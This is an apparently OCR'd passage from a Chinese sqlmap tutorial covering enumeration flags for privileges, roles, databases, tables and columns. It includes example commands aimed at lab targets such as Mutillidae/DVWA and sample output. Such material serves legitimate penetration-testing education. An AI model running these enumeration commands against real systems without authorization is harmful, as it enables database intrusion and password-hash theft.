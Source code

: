 也可以提供-U参数来指定爆破哪个用户的`hash`。

**列出数据库管理员权限**

参数：`–privileges`

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的权限，sqlmap将会告诉你哪个是数据库的超级管理员。

也可以用-U参数指定你想看哪个用户的权限。

**列出数据库管理员角色**

参数：`–roles`

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的角色，也可以用-U参数指定你想看哪个用户的角色。

仅适用于当前数据库是`Oracle`的时候。

**列出数据库系统的数据库**

参数：`–dbs`

当前用户有权限读取包含所有数据库列表信息的表中的时候，即可列出所有的数据库。

**列举数据库表**

参数：`–tables,–exclude-sysdbs,-D`

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出一个特定数据的所有表。

```
sqlmap -u "http://192.168.163.138/mutillidae/index.php?page=user-info.php&username=111&password=12123&user-info-php-submit-button=View+Account+Details"
--tables -D dvwa
```

如果你不提供-D参数来列指定的一个数据的时候，sqlmap会列出数据库所有库的所有表。

–exclude-sysdbs参数是指包含了所有的系统数据库。

需要注意的是在Oracle中你需要提供的是TABLESPACE_NAME而不是数据库名称。

**列举数据库表中的字段**

参数：`–columns,-C,-T,-D`

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出指定数据库表中的字段，同时也会列出字段的数据类型。

如果没有使用-D参数指定数据库时，默认会使用当前数据库。

```
$ python sqlmap.py -u "http://*******/sqlmap/sqlite/get_int.php?id=1" --columns -D testdb -T users -C name
[...]
Database: SQLite_masterdb
Table: users
[3 columns]
+---------+---------+
| Column  | Type|
+---------+---------+
| id  | INTEGER |
| name| TEXT|
| surname | TEXT|
+---------+---------+
```
